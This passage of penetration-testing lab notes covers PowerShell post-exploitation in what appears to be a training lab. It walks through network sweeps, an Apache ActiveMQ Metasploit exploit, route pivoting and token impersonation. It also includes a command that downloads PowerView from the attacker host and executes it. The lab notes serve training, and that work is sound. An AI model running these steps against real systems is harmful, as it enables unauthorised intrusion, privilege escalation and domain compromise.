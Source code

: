 > this should open a new agent (session)
just type agents to visualize




## Lab 2 Powershell for post-exploitation and Lateral Movement

targets network: 172.17.80.0/24

myip: 175.13.80.5

### gather information
```bash
sudo nmap -sn -oG - 172.17.80.* | awk '/Up$/ {print $2}'
fping -a -g 172.17.80.0/24 2>/dev/null > hostsup

- 172.17.80.1
- 172.17.80.100
```

### Exploit Apache ActiveMQ
// we found that port 8161 is running Apache ActiveMQ, so I searched For that version in metasploit 
	exploit(multi/http/apache_activemq_upload_jsp)
and got a shell.

// ip discovered: 10.100.11.101

in Meterpreter session:
```powershell
run autoroute -s 10.100.11.0/24
```

### Token Impersonation
use incognito
list_tokens -u
impersonate_token ELS-CHILD\\local_admin

### Sending PowerView to the target
open a web host with python
then send and execute the file:
```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.5:8000/PowerView.ps1'); Get-NetDomainController"
```

### Results
```
Forest                     : eLS.local
CurrentTime                : 1/8/2022 11:36:28 PM
HighestCommittedUsn        : 209035
OSVersion                  : Windows Server 2012 R2 Standard
Roles                      : {PdcRole, RidRole, InfrastructureRole}
Domain                     : els-child.eLS.local
IPAddress                  : 10.100.10.253
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback : 
InboundConnections         : {18be55e6-23fd-4162-ab64-6b2cf34040e5}
OutboundConnections        : {e308ece2-539f-4f7a-9fc2-fee4e5adfd31}
Name                       : child-dc01.els-child.eLS.local
Partitions                 : {CN=Configuration,DC=eLS,DC=local, CN=Schema,CN=Co
                             nfiguration,DC=eLS,DC=local, DC=ForestDnsZones,DC=
                             eLS,DC=local, DC=els-child,DC=eLS,DC=local...}

```
